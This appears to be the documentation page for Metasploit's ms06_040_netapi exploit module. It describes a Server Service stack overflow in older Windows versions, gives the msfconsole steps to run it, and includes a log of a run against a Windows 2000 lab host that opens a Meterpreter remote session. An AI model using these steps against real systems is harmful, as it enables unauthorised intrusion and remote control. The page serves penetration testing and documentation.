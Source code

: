 ## Vulnerable Application

This module exploits a stack buffer overflow in the NetApi32 CanonicalizePathName() function using the NetpwPathCanonicalize RPC call in the Server Service. It is likely that other RPC calls could be used to exploit this service. This exploit will result in a denial of service on Windows XP SP2 or Windows 2003 SP1. A failed exploit attempt will likely result in a complete reboot on Windows 2000 and the termination of all MB-related services on Windows XP. The default target for this exploit should succeed on Windows NT 4.0, Windows 2000 SP0-SP4+, Windows XP SP0-SP1 and Windows 2003 SP0.

## Verification Steps

1. Start msfconsole
2. Do: `use modules/exploits/windows/smb/ms06_040_netapi`
3. Do: `set RHOSTS [IP]`
4. Do: `set PAYLOAD [payload]`
5. Do: `run`

## Scenarios

### A run against Windows 2000 (Build 2195, SP4) and Kali Linux 2019.3

  ```
  msf exploit(windows/smb/ms06_040_netapi) > use modules/exploit/windows/smb/ms06_040_netapi
  msf exploit(windows/smb/ms06_040_netapi) > set RHOSTS 192.168.1.2
  msf exploit(windows/smb/ms06_040_netapi) > set PAYLOAD windows/meterpreter/bind_tcp
  msf exploit(windows/smb/ms06_040_netapi) > exploit

    [*] 192.168.1.2:445 - Detected a Windows 2000 target
    [*] 192.168.1.2:445 - Binding to 4b324fc8-1670-01d3-1278-5a47bf6ee188:3.0@ncacn_np:192.168.1.2[\BROWSER] ...
    [*] 192.168.1.2:445 - Bound to 4b324fc8-1670-01d3-1278-5a47bf6ee188:3.0@ncacn_np:192.168.1.2[\BROWSER] ...
    [*] 192.168.1.2:445 - Building the stub data...
    [*] 192.168.1.2:445 - Calling the vulnerable function...
    [*] Started bind TCP handler against 192.168.1.2:4444
    [*] Sending stage (180291 bytes) to 192.168.1.2
    [*] Meterpreter session 1 opened (192.168.1.3:39603 -> 192.168.1.2:4444) at 2019-12-02 11:48:52 -0700

  meterpreter >
  ```
